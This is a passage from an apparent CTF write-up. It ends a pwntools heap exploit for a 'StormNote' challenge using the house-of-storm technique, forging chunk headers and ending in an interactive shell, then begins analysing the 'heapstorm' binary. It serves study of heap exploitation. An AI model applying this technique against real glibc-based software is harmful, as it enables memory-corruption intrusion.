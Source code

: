 ```python
add(0x18)#2
free(0)
add(0x18)#0
edit(0,"A"*0x18)
add(0x88)#3
add(0x88)#4
free(3)
free(1)

add(0x2d8)#1
add(0x78)#3
add(0x48)#5
add(0x4a9)#6
# now,start to build payload idx=4&5
aim=0x00000000abcd0100
bk=aim-0x20+8
bk_nextsize=aim-0x20-0x18-5
edit(4,p64(0)*7+p64(0x4a1)+p64(0)+p64(bk)+p64(0)+p64(bk_nextsize))#edit the head of LARGECHUNK
edit(5,p64(0)+p64(0x21)*7)
free(4)
edit(5,p64(0)+p64(0x4b1)+p64(0)+p64(aim-0x20))#edit the head & bk of UNSORTEDCHUNK
#gdb.attach(p,'')
# if heap != 0x56xxxxxxxx crashed
add(0x48)
edit(4,p64(0)*8+'\x00'*7)
cmd(666)
p.send("\x00"*0x30)
p.interactive()
```
# heapstorm
[binary][8]
house of storm 的起源,本该放在前面...但是我先做的StormNote所以在思路方面上题写得较为详细.这题只是叙述大概流程,感谢出题人.
## Analysis
依然全保护,提供的是`libc-2.24.so`
```
[*] '/home/n132/Desktop/heapstorm'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
题目一开始在地址`0x13370000`开辟空间并读入随机数至`0x13370800`并作初始化操作
存在:

* add
* edit
* free
* show*
其中`edit`会在末尾补上特定的`0xc`个字节
`show`功能在`*0x13370800`xor`*0x13370808`==`0x13377331`后开启
